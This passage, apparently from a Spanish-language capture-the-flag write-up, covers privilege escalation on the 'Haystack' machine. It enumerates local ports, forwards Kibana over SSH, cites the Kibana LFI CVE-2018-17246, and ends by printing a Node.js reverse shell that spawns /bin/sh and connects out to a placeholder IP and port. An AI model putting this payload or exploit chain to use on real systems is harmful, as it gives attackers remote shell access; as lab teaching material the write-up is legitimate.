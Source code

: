 ## Escalada de privilegios

Una vez dentro podemos seguir buscando información con `ss -tnl` para ver los puertos abiertos en local:

```
[security@haystack ~]$ ss -tnl
State      Recv-Q Send-Q                                                                               Local Address:Port                                                                                              Peer Address:Port              
LISTEN     0      128                                                                                              *:80                                                                                                           *:*                  
LISTEN     0      128                                                                                              *:9200                                                                                                         *:*                  
LISTEN     0      128                                                                                              *:22                                                                                                           *:*                  
LISTEN     0      128                                                                                      127.0.0.1:5601                                                                                                         *:*                  
LISTEN     0      128                                                                               ::ffff:127.0.0.1:9000                                                                                                        :::*                  
LISTEN     0      128                                                                                             :::80                                                                                                          :::*                  
LISTEN     0      128                                                                               ::ffff:127.0.0.1:9300                                                                                                        :::*                  
LISTEN     0      128                                                                                             :::22                                                                                                          :::*                  
LISTEN     0      50                                                                                ::ffff:127.0.0.1:9600                                                                                                        :::*               
```

Vemos el puerto **5601** en local, que corresponde a **Kibana**. Intentaremos hacer un port forwarding a nuestra máquina con el siguiente comando: `ssh -L 5601:localhost:5601 security@10.10.10.115`

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fkbz90CgBgNiXOwGalcBs%2Fimage.png?alt=media&#x26;token=fa914931-1521-434d-b558-1f7806726d50" alt=""><figcaption><p>Port forwarding de Kibana.</p></figcaption></figure>

### Kibana exploit

Ahí lo tenemos. El [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246) explota un **LFI** de esta versión de Kibana, necesitaremos la reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(<PORT>, "<IP>", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
